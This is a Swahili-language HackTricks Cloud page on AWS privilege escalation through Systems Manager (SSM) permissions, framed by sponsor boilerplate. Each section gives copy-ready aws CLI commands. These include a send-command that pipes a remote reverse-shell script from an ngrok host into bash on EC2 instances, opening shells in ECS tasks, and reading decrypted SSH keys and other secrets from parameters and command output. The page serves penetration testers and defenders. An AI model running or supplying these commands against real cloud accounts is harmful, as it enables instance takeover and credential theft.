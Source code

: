 # AWS - SSM Privesc

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) za kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>

## SSM

Kwa habari zaidi kuhusu SSM angalia:

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Mshambuliaji mwenye ruhusa ya **`ssm:SendCommand`** anaweza **kutekeleza amri kwenye mifano** inayotumia Amazon SSM Agent na **kudhoofisha Jukumu la IAM** linalotumika ndani yake.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Athari Inayowezekana:** Privesc moja kwa moja kwa majukumu ya IAM ya EC2 yaliyounganishwa na mifano inayotumia Mawakala wa SSM inayotumika.

### `ssm:StartSession`

Mshambuliaji mwenye ruhusa ya **`ssm:StartSession`** anaweza **kuanzisha kikao kama cha SSH kwenye mifano** inayotumia Amazon SSM Agent na **kuathiri jukumu la IAM** linaloendeshwa ndani yake.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Ili kuanza kikao unahitaji **SessionManagerPlugin** imewekwa: [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Matokeo Yanayowezekana:** Privesc moja kwa moja kwa EC2 IAM roles zilizowekwa kwenye instances zinazoendesha na SSM Agents zinazoendesha.

#### Privesc kwa ECS

Wakati **ECS tasks** zinaendeshwa na **`ExecuteCommand` imewezeshwa** watumiaji wenye ruhusa za kutosha wanaweza kutumia `ecs execute-command` kutekeleza amri ndani ya kontena.\
Kulingana na [**nyaraka**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/) hii inafanywa kwa kuanzisha kituo salama kati ya kifaa unachotumia kuanzisha amri ya "_exec_" na kontena ya lengo na SSM Session Manager.\
Kwa hivyo, watumiaji wenye `ssm:StartSession` wataweza **kupata shell ndani ya ECS tasks** na chaguo hilo limezimwa kwa kufanya tu:
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**Athari Inayowezekana:** Privesc moja kwa moja kwa majukumu ya `ECS`IAM yaliyounganishwa na kazi zinazoendesha na `ExecuteCommand` imewezeshwa.

### `ssm:ResumeSession`

Mshambuliaji mwenye ruhusa ya **`ssm:ResumeSession`** anaweza kuanzisha upya kikao cha aina ya SSH kwenye mifano inayoendesha Amazon SSM Agent na hali ya kikao cha SSM **kilichovunjika** na **kuathiri jukumu la IAM** linaloendesha ndani yake.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Athari Inayoweza Kutokea:** Privesc moja kwa moja kwa majukumu ya EC2 IAM yaliyounganishwa na mifano inayofanya kazi na Mawakala wa SSM wanaofanya kazi na vikao vilivyovunjika.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Mshambuliaji mwenye ruhusa zilizotajwa ataweza kuorodhesha **parameta za SSM** na **kusoma kwa wazi**. Katika parameta hizi mara nyingi unaweza **kupata habari nyeti** kama vile funguo za SSH au funguo za API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Madhara Yanayoweza Kutokea:** Pata habari nyeti ndani ya paramita.

### `ssm:ListCommands`

Mshambuliaji mwenye ruhusa hii anaweza kupata orodha ya **maagizo** yote yaliyotumwa na kwa matumaini kupata **habari nyeti** ndani yao.
```
aws ssm list-commands
```
**Madhara Yanayoweza Kutokea:** Pata habari nyeti ndani ya mistari ya amri.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Mshambuliaji mwenye ruhusa hizi anaweza kupata orodha ya **amri** zote zilizotumwa na **kusoma matokeo** yaliyozalishwa kwa matumaini ya kupata **habari nyeti** ndani yake.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Athari Inayowezekana:** Pata habari nyeti ndani ya matokeo ya mistari ya amri.

### Codebuild

Unaweza pia kutumia SSM kuingia kwenye mradi wa codebuild unaojengwa:

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Jifunze kuhusu udukuzi wa AWS kutoka sifuri hadi shujaa na</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (Mtaalam wa Timu Nyekundu ya AWS ya HackTricks)</strong></a><strong>!</strong></summary>

Njia nyingine za kusaidia HackTricks:

* Ikiwa unataka kuona **kampuni yako ikitangazwa kwenye HackTricks** au **kupakua HackTricks kwa PDF** Angalia [**MIPANGO YA KUJIUNGA**](https://github.com/sponsors/carlospolop)!
* Pata [**bidhaa rasmi za PEASS & HackTricks**](https://peass.creator-spring.com)
* Gundua [**Familia ya PEASS**](https://opensea.io/collection/the-peass-family), mkusanyiko wetu wa [**NFTs**](https://opensea.io/collection/the-peass-family) ya kipekee
* **Jiunge na** 💬 [**Kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au kikundi cha [**telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Shiriki mbinu zako za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
